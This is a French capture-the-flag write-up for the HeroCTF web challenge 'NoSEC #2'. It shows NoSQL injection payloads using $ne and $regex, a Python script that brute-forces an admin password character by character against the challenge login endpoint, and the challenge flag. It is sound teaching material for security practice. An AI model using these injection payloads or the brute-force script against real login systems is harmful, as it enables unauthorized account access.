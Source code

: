 # NoSEC #2

### Description

Vous devez retrouver le mot de passe de l'administrateur pour valider le challenge ! L'URL du challenge reste la même.

Format: Hero{motdepasse}

### Solution 

Deuxième niveau du challenge [NoSEC #1](https://github.com/0xSysR3ll/CTF/edit/master/HeroCTF/Web/NoSEC1/README.md)

Nous sommes toujours sur une injection NoSQL, le principe reste basiquement le même mais cette fois-ci il va falloir `bruteforcer` le mot de passe.

La payload du niveau 1 consistait à envoyer : `{"username": "admin", "password": {"$ne": randomThing}}` qui faisait valider le mot de passe.

Ici, il va falloit donc falloir faire un attaque du type `Blind NoSQL` en utilisant les regex.

On teste en envoyant : `{"username": {"$eq": "admin"}, "password": {"$regex": "" }}`

On est bien authentifié.

Avec un script python on va alors pouvoir récupérer caractère par caractère le mot de passe.


```python
import requests

passwd = ""
headers = {'Content-Type': 'application/json'}
url = "http://challs.heroctf.fr:3000/login"

for _ in range(32):
    alphabet = "abcdefghijklmnopqrstuvwxyz0123456789"
    for i in range(len(alphabet)):
        c = alphabet[i]
        data = '{"username": {"$eq": "admin"}, "password": {"$regex": "^'+passwd+c+'" }}'
        response = requests.post(url=url, headers=headers, data=data, verify=True)
        
        if b'success' in response.content:
            print('Nouveau caractère trouvé : ', c)
            passwd += c
            
            print("Flag : Hero{"+passwd+"}")
```

Flag : `Hero{5d41402abc4b2a76b9719d911017c592}`
